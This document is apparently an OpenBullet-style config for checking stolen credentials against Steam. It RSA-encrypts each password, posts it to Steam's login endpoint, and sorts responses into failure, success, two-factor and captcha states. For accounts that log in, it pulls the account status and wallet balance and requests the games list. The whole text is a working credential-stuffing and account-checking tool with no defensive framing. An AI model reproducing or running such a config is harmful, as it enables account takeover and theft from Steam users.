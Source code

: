 ```
#11 PARSE "<SOURCE>" JSON "publickey_exp" -> VAR "11" 

#111 PARSE "<SOURCE>" JSON "timestamp" -> VAR "111" 

#PASS2 FUNCTION RSAPKCS1PAD2 "<1>" "<11>" "<PASS>" -> VAR "PASS2" 

IF "<PASS2>" DoesNotContain "=="
JUMP #PASS2
ENDIF 

FUNCTION URLEncode "<PASS2>" -> VAR "PASS3" 

FUNCTION CurrentUnixTime -> VAR "0" 

REQUEST POST "https://steamcommunity.com/login/dologin/" 
  CONTENT "donotcache=<0>&password=<PASS3>&username=<US>&twofactorcode=&emailauth=&loginfriendlyname=&captchagid=-1&captcha_text=&emailsteamid=&rsatimestamp=<111>&remember_login=false&oauth_client_id=3638BFB1" 
  CONTENTTYPE "application/x-www-form-urlencoded" 
  HEADER "Accept: */*" 
  HEADER "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" 
  HEADER "Origin: https://steamcommunity.com" 
  HEADER "X-Requested-With: XMLHttpRequest" 
  HEADER "User-Agent: <S>" 
  HEADER "Referer: https://steamcommunity.com/mobilelogin?oauth_client_id=3638BFB1&oauth_scope=read_profile%20write_profile%20read_client%20write_client" 
  HEADER "Accept-Encoding: gzip, deflate, br" 
  HEADER "Accept-Language: en-us" 

KEYCHECK 
  KEYCHAIN Failure OR 
    KEY "The account name or password that you have entered is incorrect" 
    KEY "Incorrect account name or password." 
  KEYCHAIN Success OR 
    KEY "success\":true" 
  KEYCHAIN Custom "2FACTOR" OR 
    KEY "requires_twofactor\":true,\"" 
    KEY "emailauth_needed\":true" 
  KEYCHAIN Ban OR 
    KEY "captcha_needed\":true" 

PARSE "<SOURCE>" JSON "steamid" -> VAR "ID" 

REQUEST GET "https://store.steampowered.com/account/" 
  
  HEADER "User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 13_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148" 
  HEADER "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" 
  HEADER "Accept-Language: en-us" 
  HEADER "Accept-Encoding: gzip, deflate, br" 

KEYCHECK BanOnToCheck=FALSE 
  KEYCHAIN Success OR 
    KEY "s account</title>" 

PARSE "<SOURCE>" LR "account_manage_label\">Status:" "class=\"account_manage_link" -> VAR "st" 

PARSE "<st>" LR "\">" "</a>" -> CAP "Status" 

PARSE "<SOURCE>" LR "<div class=\"accountData price\">" "</div>" CreateEmpty=FALSE -> CAP "Balance" 

REQUEST GET "https://steamcommunity.com/profiles/<ID>/games?tab=all" 
```